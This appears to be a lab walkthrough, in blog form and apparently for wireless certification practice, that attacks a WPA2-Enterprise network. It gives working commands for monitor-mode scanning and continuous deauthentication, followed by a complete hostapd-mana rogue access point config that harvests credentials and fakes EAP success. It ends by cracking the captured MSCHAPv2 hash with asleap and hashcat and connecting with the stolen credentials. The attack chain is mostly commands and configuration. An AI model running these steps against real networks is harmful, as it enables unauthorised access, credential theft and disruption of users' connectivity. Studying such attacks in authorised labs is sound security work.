 +++
title = "Attacking WPA2 Enterprise networks"
draft = false
description = "A step-by-step guide to attacking WPA2 enterprise networks using hostapd-mana and freeradius."
summary = "A step-by-step guide to attacking WPA2 enterprise networks using hostapd-mana and freeradius."
categories = ["Wireless Networking"]
date = 2025-04-21
tags = ["WPA2", "enterprise", "hostapd-mana", "freeradius", "oswp"]
+++

## Introduction
In this article, we are going to attack the WPA2-MGT wireless enterprise network.
To attack WPA Enterprise we build our own rogue AP, but to do so, we need to create a certificate. We need to make the certificate with the same information as our target. To capture the information, we need to capture a handshake like in WPA2 attacks.

## Capturing Network Information
First, we need to enable monitor mode on our wireless interface:
```bash
sudo airmon-ng start wlan0
```
 
![Output of airmon-ng starting monitor mode on wlan0](Pasted%20image%2020250316164117.png)

Now we can scan for networks in all bands:
```bash
sudo airodump-ng wlan0mon --band abg
```

![Output of airodump-ng scanning for networks](Pasted%20image%2020250316165349.png)

Once we've identified our target network, we can focus our capture on it:
```bash
sudo airodump-ng wlan0mon -c 44 --bssid F0:9F:C2:71:22:16 -w wpa-mgt 
```

![Airodump-ng capturing packets from the target AP](Pasted%20image%2020250317075400.png)

In the same time on another terminal we also start a deauthentication attack using `aireplay-ng`:
```bash
sudo aireplay-ng wlan0mon --deauth 0 -a F0:9F:C2:71:22:16
```

![Aireplay-ng sending deauthentication packets](Pasted%20image%2020250317075800.png)

## Certificate Extraction
Using [`pcapFilter.sh`](https://gist.github.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2) script to extract the `tls.handshake.certificate` from the cap file we captured using `airodump-ng`.

![Certificate extraction using pcapFilter.sh script](Pasted%20image%2020250317083757.png)
The certificate is now extracted and saved in `/tmp/certs` folder.

## Setting Up FreeRADIUS
Now we need to install `freeradius` server:
```bash
sudo apt install freeradius
```

Go to /etc/freeradius/3.0/certs and open `ca.cnf` and `server.cnf`:

![Directory listing of FreeRADIUS certificate folder](Pasted%20image%2020250317093614.png)

```bash
nano ca.cnf
```

![Editing ca.cnf configuration file](Pasted%20image%2020250317094300.png)

```bash
nano server.cnf
```

![Editing server.cnf configuration file](Pasted%20image%2020250317094937.png)

After that we do the following commands under `/etc/freeradius/3.0/certs` to generate `Diffie Hellman key` for `hostapd-mana`:
```bash
rm dh
```

```bash
make
```

![Generating Diffie-Hellman parameters](Pasted%20image%2020250317095344.png)

## Creating a Rogue Access Point
Next, create a file called `mana.eap_user` in `/etc/hostapd-mana/mana.eap_user` folder:
```bash
* PEAP,TTLS,TLS,FAST
"t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "pass" [2]
```

After that we create a rogue access point by creating a file called `mana-network.conf`:
```bash
# SSID of the AP
ssid=wifi-regional

# Network interface to use and driver type
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=44
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=a

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/etc/hostapd-mana/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key
# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1
# WPA/WPA2
wpa=3
# WPA Enterprise
wpa_key_mgmt=WPA-EAP
# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
```

Start the Rogue AP:
```bash
sudo hostapd-mana mana-network.conf
```

![Hostapd-mana running the rogue access point](Pasted%20image%2020250317144847.png)

## Password Cracking
Using **asleap** to crack the password hash. We can copy/paste the output, starting with **asleap**, and append the wordlist to the -W parameter:

![Asleap tool cracking the captured credentials](Pasted%20image%2020250317155259.png)

**Credentials obtained:**
- Password: `bulldogs1234`
- User: `juan.tr` 
- Domain with user: `CONTOSO\juan.tr`

We can also use the `hashcat` for password cracking:
```bash
hashcat -a 0 -m 5500 juan.tr::::b74a163726ec4f0d75215c9de156ba47802b4cc355b7b7af:16e896c22be272dd /root/rockyou-top100000.txt --force
```

## Connecting to the Network
We connect to the AP using wpa_supplicant, first we create the conf file for the network.

Create network.conf:
```bash
network={
  ssid="wifi-regional"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="CONTOSO\juan.tr" #domain\user
  password="bulldogs1234"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}
```

Start connecting using wpa_supplicant:
```bash
wpa_supplicant -c network.conf -i wlan0
```

Get the IP address:
```bash
sudo dhclient wlan0
```

![Successfully obtaining an IP address with dhclient](Pasted%20image%2020250317163609.png)


